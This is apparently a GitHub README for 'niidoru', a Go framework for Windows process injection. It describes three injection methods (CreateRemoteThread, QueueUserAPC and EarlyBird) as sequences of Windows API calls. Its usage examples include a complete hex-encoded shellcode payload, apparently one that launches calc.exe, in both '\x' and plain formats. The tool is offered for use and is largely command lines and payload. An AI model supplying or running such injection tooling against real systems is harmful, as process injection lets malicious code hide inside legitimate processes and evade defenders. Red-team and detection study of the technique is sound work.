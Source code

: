 # niidoru

Framework for Process Injection using Go.

```
go run . -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```
- -m (Mandatory): Process injection method. Options: 1, 2, 3

- -p (Optional):  Process ID or PID. Examples: 1234

- -n (Optional):  Process name. Example: notepad.exe

- -h (Optional):  Hexadecimal payload. It can be in the format "\x50\x51\x52" or "505152". Default: Payload to pop calc.exe 

------------------------------

## Methods

**Method 1** (*-m 1*) or **CreateRemoteThread**: 

```
OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread + CloseHandle
```

**Method 2** (*-m 2*) or **QueueUserAPC**: 

```
OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC + CloseHandle
```

**Method 3** (*-m 3*) or **EarlyBird**: 

```
CreateProcess + VirtualAllocEx + WriteProcessMemory + VirtualProtectEx + QueueUserAPC + ResumeThread + CloseHandle
```

------------------------------

## Examples:

Process injection using CreateRemoteThread method, targeting a notepad.exe process and with a payload in hexadecimal format with "\x":  

```
go run . -m 1 -n notepad.exe -h \x50\x51\x52\x53\x56\x57\x55\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x83\xEC\x28\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x30\x5D\x5F\x5E\x5B\x5A\x59\x58\xC3
```

Process injection using QueueUserAPC method, targeting a process with PID 1234 and with a payload in hexadecimal format without "\x":

```
go run . -m 2 -p 1234 -h 505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3
```

Process injection using EarlyBird method, spawning a new notepad.exe process and with the default payload:

```
go run . -m 3 -n c:\windows\system32\notepad.exe 
```

------------------------------

## Binary

Compile:

```
go build
```

Run:

``` 
niidoru.exe -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```



